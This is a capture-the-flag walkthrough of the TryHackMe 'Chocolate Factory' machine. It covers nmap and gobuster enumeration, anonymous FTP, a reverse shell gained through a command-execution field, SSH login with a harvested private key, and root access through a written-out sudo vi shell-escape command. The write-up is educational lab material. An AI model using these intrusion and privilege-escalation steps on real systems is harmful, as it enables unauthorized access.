






Hello everyone,

Today we are going to solve the chocolate factory machine from tryhackme. we will see how we can enumrate FTP,SSH and how to do privesc with vi.


<!--truncate-->

So let's start..

## Nmap results

```bash
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.3
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.10.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| ssh-hostkey:
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
|_auth-owners: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
100/tcp open  newacct?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings:
|   GenericLines, NULL:
|     "Welcome to chocolate room!!
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;)
|_    hope you wont drown Augustus"
106/tcp open  pop3pw?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings:
|   GenericLines, NULL:
|     "Welcome to chocolate room!!
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;)
|_    hope you wont drown Augustus"
109/tcp open  pop2?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings:
|   GenericLines, NULL:
|     "Welcome to chocolate room!!
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;)
|_    hope you wont drown Augustus"
110/tcp open  pop3?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings:
|   GenericLines, NULL:
|     "Welcome to chocolate room!!
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;)
|_    hope you wont drown Augustus"
111/tcp open  rpcbind?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings:
|   NULL, RPCCheck:
|     "Welcome to chocolate room!!
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;)
|_    hope you wont drown Augustus"
113/tcp open  ident?
| fingerprint-strings:
|   DNSVersionBindReqTCP, GenericLines, GetRequest, NULL, RTSPRequest, TLSSessionReq, ms-sql-s:
|_    http://localhost/key_rev_key <- You will find the key here!!!
119/tcp open  nntp?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings:
|   GenericLines, NULL:
|     "Welcome to chocolate room!!
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;)
|_    hope you wont drown Augustus"
125/tcp open  locus-map?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings:
|   GenericLines, NULL:
|     "Welcome to chocolate room!!
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;)
|_    hope you wont drown Augustus"
```

## FTP

--> I got this image file on ftp

![[Pasted image 20211226115707.png]]

But i found nothing in that image so we have to do something else.

## Enumration

--> I found this login page on port `80`


--> After that i brute forced it with some extensions like `php`,`js` and `html` with the help of gobuster and i found the `/home.php` page

```bash
===============================================================
/.htpasswd.js         (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.js         (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/home.php             (Status: 200) [Size: 569]
/index.html           (Status: 200) [Size: 1466]
/server-status        (Status: 403) [Size: 278]
/validate.php         (Status: 200) [Size: 93]
===============================================================
```

--> After going to that directory i found that there is a one input field which is executing the commands so i tried to add netcat reverse shell and i got the reverse shell !


--> Also i found one sentence in nmap results which looks like this:



--> So i tried to go in `http://ip/key_rev_key` and found one file !

I have given all permissions (777) to this file and when i ran it i found this:



--> so i ran `strings` on this file and found the key !



--> So now let's continue with the reverse shell which we have found !

And i found the `id_rsa` key for the user `charlie` in `/home/charlie/teleport` so let's grab that and give it `600` permission and login as charlie!

```bash
chmod 600 id_rsa
ssh -i id_rsa charlie@id_rsa
```

--> And we got logged in as `charlie` and found the `user` flag!

And also we missed this question !

> What is Charlie's password?

So i found it in `validate.php` file inside `/var/www/html/`



--> And now let's continue with the privesc part!

## Privesc

First of all i done `sudo -l` and found that we can run `/usr/bin/vi` as root so let's goto gtfobins and find command to privesc

and i found this command:

```bash
sudo /usr/bin/vi -c ':!/bin/sh' /dev/null
```

--> And boom i got root !

so let's get the `root` flag but wait i found one file there called `root.py` so we are not done yet!

When i have cat that file i found that it's getting key from user and decoding something:

```py
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAA
KyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
```

So i remembered that we found one key earlier so let's use it at the place of `key` variable here and i done something like this:



--> So let's run that python file with `python root.py` and i got my flag !



--> And we have pwned the machine!
